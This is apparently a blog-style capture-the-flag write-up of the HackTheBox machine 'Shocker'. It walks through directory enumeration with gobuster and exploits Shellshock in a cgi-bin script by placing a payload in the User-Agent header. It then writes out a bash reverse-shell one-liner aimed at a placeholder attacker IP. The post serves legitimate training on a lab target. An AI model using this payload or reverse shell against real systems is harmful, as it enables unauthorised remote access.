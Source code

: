 ```yaml
---
layout: post
title:	"Shocker Writeup"
date:	2018-09-13 03:00:00
categories:
    - writeups
tags:
    - ctf
    - boot2root
    - hackthebox
---
```

<head>
	<title> Shocker Writeup | HackTheBox </title>
</head>
<title> Shocker Writeup </title>
![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/logo.png)

## i. Port Scan

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/ports.png)

## ii. Enumeration / Low Priv Shell

Starting off with http, browsing to host:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/http.png)

Nothing interesting, let's see if we can find any hidden directories using `gobuster`

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/gobuster1.png)

Wait... nothing found? That's because of two reasons: 
- gobuster by default does not show pages with 403 Status Codes (Forbidden). 
- the way that this apache is setup is that it'll report directories that do not have a / appended as 404.

Luckily for us, gobuster has those switches built-in. `-f to append directory flashes, and -s <status> for custom status codes`

Running gobuster with those two options:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/gobuster2.png)

~~~
$ gobuster -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 25 -f -s 403
~~~

Seems like we found a new directory, `cgi-bin`, navigating to it we get the 403 mentioned before.

Let's see if we can use gobuster to find any files in the directory. Typically there are .sh files in /cgi-bin/, so we can use `-x` in gobuster for custom extensions.

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/gobuster3.png)

Navigating to user.sh:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/download.png)

Downloading the file, and looking at the contents, we can see that the script is executing uptime when being called:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/uptime.png)

Let's try testing if the page is vulnerable to Shellshock since bash is involved.

~~~
Two great reads on how Shellshock works & how it's exploited:
https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability
https://security.stackexchange.com/questions/68122/what-is-a-specific-example-of-how-the-shellshock-bash-bug-could-be-exploited
~~~

Using Burp's repeater would make this easier, as we do not have to download the file every time to see the output:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/burp1.png)

The payload that I'm going to be using: 
~~~
() { :; }; echo; /bin/ls

If you want to execute another command, make sure you include the full path. ($ which command)
~~~

This will list the contents in the directory. I'm going to insert the payload into User-Agents. (You can use several HTTP-Headers such as User-Agent, Cookie, Accept, etc.)

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/shellshock.png)

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/response.png)

Looking at the response, we see that it prints out the directory contents, which means we have `command execution`

In order to get a low-privilege shell, I am going to use the bash reverse shell one-liner.

~~~
$ bash -i >& /dev/tcp/YOURIP/PORT 0>&1

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/request2.png)

Looking at our listener:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/revshell.png)











~~~
Sources / Links:

[0]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[1]: https://www.vulnhub.com/entry/blacklight-1,242/
~~~


